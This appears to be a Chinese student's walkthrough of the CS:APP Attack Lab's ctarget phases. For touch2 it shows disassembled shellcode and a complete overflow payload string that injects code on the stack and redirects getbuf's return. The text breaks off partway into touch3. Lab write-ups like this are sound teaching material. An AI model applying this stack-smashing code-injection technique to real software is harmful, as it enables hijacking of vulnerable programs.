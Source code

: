 本题除了要能使getbuf最后返回至touch2，还要让val的值与cookie（0x16e21314）相等。通过查看反汇编代码可知val对应的寄存器是%rdi。而在getbuf和touch2函数中都无法直接对%rdi赋值，故需要自己写一个对%rdi赋值的函数并返回至touch2。

因为二进制代码可以在栈中运行，那么只需写一个汇编代码对他编译在反汇编即可得到二进制（十六进制）代码，将其放入栈中即可。而这个汇编代码能够：1、完成对%rdi的赋值 2、正确返回到touch2。

因此只需用movq对%rdi进行赋值，然后在向栈中pushq一个touch2的地址即可，又实验发现如果直接用pushq对立即数操作的话只会取他的后32位，因此更换为先用movq对随便一个寄存器（%rdx）赋值，再将%rdx用pushq指令放入栈中，最后在ret即可。因此最终得反汇编代码：

```
   0:	bf 14 13 e2 16       	mov    $0x16e21314,%edi
   5:	48 ba fc 59 55 55 55 	movabs $0x5555555559fc,%rdx
   c:	55 00 00 
   f:	52                   	push   %rdx
  10:	c3                   	retq   
```

而getbuf的return address只需被替换为%rsp的首地址即可，通过gdb查看可得：![1575639838501](C:\Users\12875\AppData\Roaming\Typora\typora-user-images\1575639838501.png)

因此最终touch2的答案为：bf 14 13 e2 16 48 ba fc 59 55 55 55 55 00 00 52 c3 00 00 00 00 00 00 00 00 00 00 00 bf 14 13 e2 16 48 ba fc 59 55 55 55 55 00 00 52 c3 00 00 00 00 00 00 00 00 00 00 00 d8 8e 65 55 00 00 00 00

##### ctarget — touch3

```c
1 /* Compare string to hex represention of unsigned value */ 
2 int hexmatch(unsigned val, char *sval) 
3 { 
4 		char cbuf[110]; 
5 		/* Make position of check string unpredictable */ 
6 		char *s = cbuf + random() % 100; 
7 		sprintf(s, "%.8x", val); 
8 		return strncmp(sval, s, 9) == 0; 
9 }
10 
11 void touch3(char *sval) 
12 { 
13 		vlevel = 3; /* Part of validation protocol */ 
14 		if (hexmatch(cookie, sval)) { 
15 			printf("Touch3!: You called touch3(\"%s\")\n", sval); 
16 			validate(3); 
17 		} else { 
18 			printf("Misfire: You called touch3(\"%s\")\n", sval); 
19 			fail(3); 
20 		} 
21 exit(0); 
22 }
```

观察实验说明的c代码可知，本题类似于touch2，但需将cookie对应的十六进制的编码转为字符串类型再赋值给%rdi。

在一开始直接将cookie对应的十六进制的字符串类型的编码赋值给%rdi后，发现函数将%rdi的值当做地址调用了

![1575980541922](C:\Users\12875\AppData\Roaming\Typora\typora-user-images\1575980541922.png)
